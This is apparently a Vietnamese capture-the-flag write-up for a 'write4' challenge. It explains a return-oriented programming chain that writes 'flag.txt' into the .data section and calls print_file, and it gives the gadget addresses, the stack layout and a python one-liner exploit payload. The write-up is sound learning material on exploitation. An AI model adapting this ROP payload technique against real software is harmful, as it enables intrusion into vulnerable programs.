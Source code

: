 ```text-plain
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;
0x0000000000400693: pop rdi; ret;
0x00000000004004e6: ret;
```

Sử dụng gadget `pop r14; pop r15; ret;`  sẽ lấy lần lượt vị trí kế trong stack lưu vào r14 (địa chỉ vaddr của .data section vì nó có quyền ghi -rw-) và kế sau lưu vào r15 (chuỗi “flag.txt” vừa đủ 8 byte nên ta không cần thêm)

Sau đó ta gọi gadget `mov qword ptr [r14], r15; ret;` để lấy giá trị trong r15 lưu tại vị trí tại địa chỉ lưu trong r14 cũng chính là .data section.

Cuối cùng là truyền địa chỉ vào arg1 bằng gadget `pop rdi; ret;` với địa chỉ của .data section

Ta sẽ build stack như sau:

```text-plain
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x400690] -> pop r14; pop r15; ret;
[0x601028] -> -rw- .data -> r14
[b'flag.txt'] -> 8 byte "flag.txt" -> r15
[0x400628] -> mov qword ptr [r14], r15; ret; -> lấy 'flag.txt' lưu vào .data
[0x400693] -> pop rdi; ret; -> arg1
[0x601028] -> -rw- .data -> địa chỉ lưu 'flag.txt' -> arg1
[0x4004e6] -> ret;
[0x400510] -> print_file(*rdi);
```

Truyền payload vào binary

```text-plain
python3 -c "import sys;sys.stdout.buffer.write(b'A'*40 + b'\x90\x06\x40\x00' + b'\x00'*4 + b'\x28\x10\x60\x00' + b'\x00'*4 + b'flag.txt' + b'\x28\x06\x40\x00' + b'\x00'*4 + b'\x93\x06\x40\x00' + b'\x00'*4 + b'\x28\x10\x60\x00' + b'\x00'*4 + b'\xe6\x04\x40\x00' + b'\x00'*4 + b'\x10\x05\x40\x00' + b'\x00'*4)" | ./write4
```

